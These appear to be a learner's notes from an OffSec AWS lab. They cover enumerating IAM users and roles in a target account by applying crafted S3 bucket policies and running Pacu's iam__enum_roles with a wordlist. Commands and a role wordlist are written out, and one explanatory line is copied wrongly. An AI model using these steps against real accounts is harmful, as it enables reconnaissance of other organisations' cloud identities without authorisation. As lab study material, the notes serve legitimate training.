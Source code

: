 ```bash
    ]
}
```
Checking the Above policy with valid user, If no error returns after running the command, our policy was applied successfully. This also means that the cloudadmin user exists in the target account.
```
aws --profile attacker s3api put-bucket-policy --bucket offseclab-dummy-bucket-28967-25641-13328 --policy file://grant-s3-bucket-read.json
```
Update the policy added the no existed used 

```bash
nano grant-s3-bucket-read-userDoNotExist.json
cat grant-s3-bucket-read-userDoNotExist.json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowUserToListBucket",
            "Effect": "Allow",
            "Resource": "arn:aws:s3:::offseclab-dummy-bucket-28967-25641-13328",
            "Principal": {
                "AWS": ["arn:aws:iam::123456789012:user/nonexistant"]
            },
            "Action": "s3:ListBucket"

        }
    ]
}
```
Checking the Above policy with Non valid user, If no error returns after running the command, our policy was applied successfully. This also means that the cloudadmin user exists in the target account.
```bash
aws --profile attacker s3api put-bucket-policy --bucket offseclab-dummy-bucket-28967-25641-13328 --policy file://grant-s3-bucket-read-userDoNotExist.json
# Error An error occurred (MalformedPolicy) when calling the PutBucketPolicy operation: Invalid principal in policy
```
Trying to check existing crafted sample user names
```bash
echo -n "lab_admin
security_auditor
content_creator
student_access
lab_builder
instructor
network_config
monitoring_logging
backup_restore
content_editor" > aws-role-names.txt
```
[Pacu](https://github.com/RhinoSecurityLabs/pacu): The Open Source AWS Exploitation Framework
```bash
sudo apt update
sudo apt install pacu
pacu -h
pacu # It prompt for would like to name this new session?
Pacu(No Keys Set)>import_keys attacker # attacker profile is already set in the AWS CLI
Pacu>ls # it will all the options
Pacu>help iam__enum_roles # Helpoptions
Pacu>run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012 #this is the enum user account ID Identified "lab_admin" 
# Tasked to add the add the "saphire", "ruby", and "amethyst" starting of the in aws-role-names.txt
```